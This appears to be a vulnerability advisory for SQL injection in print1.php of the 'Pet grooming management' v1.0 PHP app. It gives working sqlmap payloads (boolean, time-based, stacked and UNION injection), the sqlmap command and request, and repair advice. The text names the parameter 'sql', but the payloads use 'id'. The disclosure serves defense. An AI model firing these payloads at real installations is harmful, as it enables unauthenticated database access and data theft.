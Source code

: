 # Pet grooming management print1.php  v.1.0 sql injection

# NAME OF AFFECTED PRODUCT(S)

- Pet grooming management

## Vendor Homepage

- [Pet grooming management software download | SourceCodester](https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- xiaoliyu-1
## VERSION(S)

- V1.0

## Software Link

- [Downloading Pet grooming management software download Code | SourceCodester](https://www.sourcecodester.com/download-code?nid=18340&title=Pet+grooming+management+software+download)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'print1.php' file of the 'Pet grooming management' project. The reason for this issue is that attackers inject malicious code from the parameter "sql" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Pet grooming management", discovered a critical SQL injection vulnerability in the "print1.php" file. This vulnerability stems from insufficient user input validation of the 'sql' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind
- UNION query
- stacked queries
- boolean-based blind

## Vulnerability location:

- 'sql' parameter

## Payload:

```
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: http://127.0.0.1/admin/print1.php?id=' AND 8097=(SELECT (CASE WHEN (8097=8097) THEN 8097 ELSE (SELECT 8193 UNION SELECT 9429) END))-- oJLZ
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: http://127.0.0.1/admin/print1.php?id=';SELECT SLEEP(5)#
    Vector: ;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://127.0.0.1/admin/print1.php?id=' AND (SELECT 6055 FROM (SELECT(SLEEP(5)))Xkso)-- XqjD
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: Generic UNION query (NULL) - 18 columns
    Payload: http://127.0.0.1/admin/print1.php?id=' UNION ALL SELECT NULL,NULL,CONCAT(0x7170706271,0x76534756724141484c764f55575a65756c6f4875526f7164634b55514270614e74554b4c4a697544,0x716b717671),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
    Vector:  UNION ALL SELECT NULL,NULL,[QUERY],NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
```

![image-20250917114850.png](./assets/image-20250917114850.png)
 


## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
sqlmap -r 1.req  --dbs -v 3 --batch --level 5
//1.req
GET /admin/print1.php?id=* HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

```

# Attack results


![image-20250917115038.png](./assets/image-20250917115038.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
